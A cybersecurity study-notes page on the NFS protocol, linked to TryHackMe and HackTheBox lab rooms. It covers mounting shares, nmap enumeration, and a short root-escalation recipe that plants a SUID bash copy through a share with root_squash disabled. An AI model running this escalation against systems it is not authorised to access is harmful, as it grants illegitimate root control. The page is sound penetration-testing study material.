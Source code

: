 # Network File System (NFS)

[![networkservices2](../../../cybersecurity/_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Network File System (NFS) is a protocol allowing a computer to mount a remote folder on its local file system.

🐊️ **Port**: 2049 (TCP)

NFS is based and utilises [RPC](rpc.md) for exchanges. It uses External Data Representation (XDR) for data serialization.

**List mounts** 🗺️

```ps
$ showmount -e IP
# see NFS exports
$ cat /etc/exports
```
</div><div>

**Mount/Unmount** 🤘

The command below will mount the remote folder `/share` inside `/tmp/share` on our machine. It means that when we browse `/tmp/share`, we will see the files inside `/share` on the remote host.

```ps
# sudo apt install nfs-common
$ mkdir /tmp/share
$ sudo mount -t nfs IP:/share /tmp/share/ # [-nolock]
# there is also variants (with/without vers=2): 
# sudo mount -o rw,vers=2 IP:/share /tmp/share/
# unmount
$ sudo umount /tmp/share
```
</div></div>

<hr class="sep-both">

## NFS vulnerabilities ☠️

[![linprivesc](../../../cybersecurity/_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../cybersecurity/_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![kenobi](../../../cybersecurity/_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-lg-2"><div>

* It's possible to use `nmap` to get information about NFS shares:

```ps
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
$ sudo nmap IP -p111,2049 -sV --script nfs*
$ sudo nmap IP -p111,2049 -sV -sC
```
</div><div>

* When **root_squashing** is disabled, a local root user is mapped to the remote root user, allowing them to create [SUID](/cybersecurity/red-team/s4.privesc/linux/perms.md#suidguid-bit) files.

```ps
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

NFS

* nfs-utils (ubuntu), nfs-ganesha (solaris), openNFS (RedHat)
* nfsstat
* nfswatch
* DoS
</div><div>

* `systemctl restart nfs-kernel-server ; exportfs`

Add an export

* `echo '/tmp/share  CIDR(sync,no_subtree_check)' >> /etc/exports`
</div></div>